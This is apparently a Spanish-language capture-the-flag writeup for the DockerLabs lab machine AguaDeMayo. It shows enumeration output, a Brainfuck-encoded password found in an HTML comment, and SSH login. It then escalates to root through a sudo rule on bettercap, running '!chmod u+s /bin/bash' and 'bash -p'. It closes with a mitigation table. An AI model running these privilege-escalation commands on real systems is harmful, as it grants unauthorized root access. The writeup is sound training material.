



# AguaDeMayo — DockerLabs Writeup

**Platform:** DockerLabs | **Difficulty:** Easy | **Target IP:** 172.17.0.2 | 

## Descripcion 

Máquina de dificultad **Easy** de DockerLabs enfocada en la enumeración de servicios, el descubrimiento de credenciales mediante código Brainfuck y la obtención de acceso por SSH. También permite practicar la escalada de privilegios en Linux mediante una configuración insegura de `sudo` sobre Bettercap y la modificación del bit SUID de `/bin/bash`.

## Attack chain

**Nmap → Web Enumeration → HTML Comment Discovery → Brainfuck Decoding → SSH Credential Discovery → Gobuster → Image-Based User Discovery → SSH Access (agua) → Sudo Misconfiguration → Bettercap Command Execution → SUID Abuse → Root**

### 1. Analisis y escaneo del objetivo.

```text
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/aguaDeMayo]
└─$ nmap -sV -sC -p- 172.17.0.2
Starting Nmap 7.99 ( https://nmap.org ) at 2026-10-13 14:38 -0300
Nmap scan report for 172.17.0.2
Host is up (0.0000070s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 75:ec:4d:36:12:93:58:82:7b:62:e3:52:91:70:83:70 (ECDSA)
|_  256 8f:d8:0f:2c:4b:3e:2b:d7:3c:a2:83:d3:6d:3f:76:aa (ED25519)
80/tcp open  http    Apache httpd 2.4.59 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.59 (Debian)
MAC Address: C6:CC:42:77:77:6B (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.05 seconds


```
Teniendo el resultado del nmap tenemos dos servicios, `SSH` y un servidor `apache` el cual se encuentra por defecto.



Al realizar un curl tenemos como pista el siguiente comentario 

```

<!--
++++++++++[>++++++++++>++++++++++>++++++++++>++++++++++>++++++++++>++++++++++>++++++++++++>++++++++++>+++++++++++>++++++++++++>++++++++++>++++++++++++>++++++++++>+++++++++++>+++++++++++>+>+<<<<<<<<<<<<<<<<<-]>--.>+.>--.>+.>---.>+++.>---.>---.>+++.>---.>+..>-----..>---.>.>+.>+++.>.
-->

```

Lo decodificamos y tenemos la contraseña para el `ssh`

El cual se encuentra escrito en `brainfuck`



Al no tener nada mas de relevancia continuamos con un fuzzing web.


## 2. Fuzzing WEB 

Realizamos un fuzzing web para buscar directorios o archivos ocultos. 

```text
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/aguaDeMayo]
└─$ gobuster dir  -u http://172.17.0.2/  -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt -x php,html,htm,txt,bak,old,zip,conf,config,log 
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Extensions:              php,txt,zip,config,log,html,htm,bak,old,conf
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
images               (Status: 301) [Size: 309] [--> http://172.17.0.2/images/]
index.html           (Status: 200) [Size: 11142]
server-status        (Status: 403) [Size: 275]
index.html           (Status: 200) [Size: 11142]
Progress: 685091 / 685091 (100.00%)
===============================================================
Finished
===============================================================
                                                                                                                          
```

Ya que `index`  se encuentra por defecto,  ingresamos a `http://172.17.0.2/images/` 



Encontamos una imagen la cual nos deja como usuario `agua`  para el inicio de sesion de `SSH`.

Procedemos con la conexion por SSH con el usuario  a`agua` y la contraseña `bebeaguaqueessano`

## 3. Conexion y escalada de privilegios.

Ingresamos con las credenciales obtenidas y ejecutamos sudo -l para escalar `privilegios`.


```text
                                                                                                                             
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/aguaDeMayo]
└─$ ssh agua@172.17.0.2
agua@172.17.0.2's password: 
Linux a49ab8c310b2 7.1.5+kali-amd64 #1 SMP PREEMPT_DYNAMIC Kali 7.1.5-1kali1 (2026-07-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue May 14 17:41:58 2024 from 172.17.0.1
agua@a49ab8c310b2:~$ sudo -l
Matching Defaults entries for agua on a49ab8c310b2:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User agua may run the following commands on a49ab8c310b2:
    (root) NOPASSWD: /usr/bin/bettercap
agua@a49ab8c310b2:~$ sudo -l
Matching Defaults entries for agua on a49ab8c310b2:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User agua may run the following commands on a49ab8c310b2:
    (root) NOPASSWD: /usr/bin/bettercap
agua@a49ab8c310b2:~$ 


```
Ejecutamos `sudo /usr/bin/bettercap` y conseguimos `root`.


```
agua@a49ab8c310b2:~$ sudo /usr/bin/bettercap
bettercap v2.32.0 (built for linux amd64 with go1.19.8) [type 'help' for a list of commands]

172.17.0.0/16 > 172.17.0.2  » [21:02:05] [sys.log] [war] exec: "ip": executable file not found in $PATH
172.17.0.0/16 > 172.17.0.2  » !whoami
root
172.17.0.0/16 > 172.17.0.2  » !id
uid=0(root) gid=0(root) groups=0(root)
172.17.0.0/16 > 172.17.0.2  »  


```
Para mayor comodidad cambiamos los privilegios de la shell y salimos de `bettercap`.

```
172.17.0.0/16 > 172.17.0.2  » !chmod u+s /bin/bash
172.17.0.0/16 > 172.17.0.2  » exit
open /proc/sys/net/ipv4/ip_forward: read-only file systemagua@62dc235b2ca5:/home$
bash -p
bash-5.2# id
uid=1000(agua) gid=1000(agua) euid=0(root) groups=1000(agua),104(lxd)
bash-5.2# whoami
root
bash-5.2#
```


# Conclusión

A partir del escaneo inicial con **Nmap**, se identificaron los servicios SSH y Apache. Al revisar la página web, se encontró un comentario HTML con un mensaje codificado en **Brainfuck**, que permitió obtener la contraseña del usuario `agua`.

Posteriormente, mediante **Gobuster**, se descubrió el directorio `images`, donde se encontró una imagen que revelaba el usuario para acceder por SSH. Con las credenciales obtenidas, se inició sesión y se ejecutó `sudo -l`, identificando que el usuario `agua` podía ejecutar `/usr/bin/bettercap` como `root` sin contraseña.

Finalmente, se aprovechó este permiso para ejecutar comandos como `root` desde Bettercap y habilitar el bit **SUID** en `/bin/bash`. Al ejecutar `bash -p`, se obtuvo una shell privilegiada como **root**, completando la escalada de privilegios.

En conclusión, la máquina **AguaDeMayo** demuestra cómo la exposición de credenciales y los permisos excesivos de `sudo` sobre herramientas que permiten ejecutar comandos pueden comprometer completamente un sistema.

| Vulnerabilidad / Técnica | Impacto | Mitigación |
|---|---|---|
| **Credenciales ocultas en comentarios HTML** | Permiten descubrir la contraseña de un usuario. | Evitar almacenar información sensible en el código fuente de páginas web. |
| **Información sensible en el directorio `images`** | Facilita la identificación del usuario para acceder por SSH. | Revisar los archivos públicos y evitar incluir información útil para un atacante. |
| **Permisos de `sudo` sobre `bettercap`** | Permiten ejecutar comandos con privilegios de `root`. | Restringir su ejecución mediante `sudo` y aplicar el principio de mínimo privilegio. |
| **Modificación del bit SUID de `/bin/bash`** | Permite iniciar una shell conservando privilegios elevados. | Impedir cambios no autorizados en archivos críticos y auditar los permisos SUID. |

## Recomendaciones generales

- Evitar exponer contraseñas o información sensible en el código fuente y los archivos públicos.
- Utilizar credenciales robustas y proteger el acceso SSH.
- Aplicar el principio de mínimo privilegio en las reglas de `sudo`.
- Revisar las herramientas que pueden ejecutar comandos arbitrarios cuando se ejecutan con privilegios elevados.
- Auditar periódicamente los permisos SUID y proteger los ejecutables críticos del sistema.
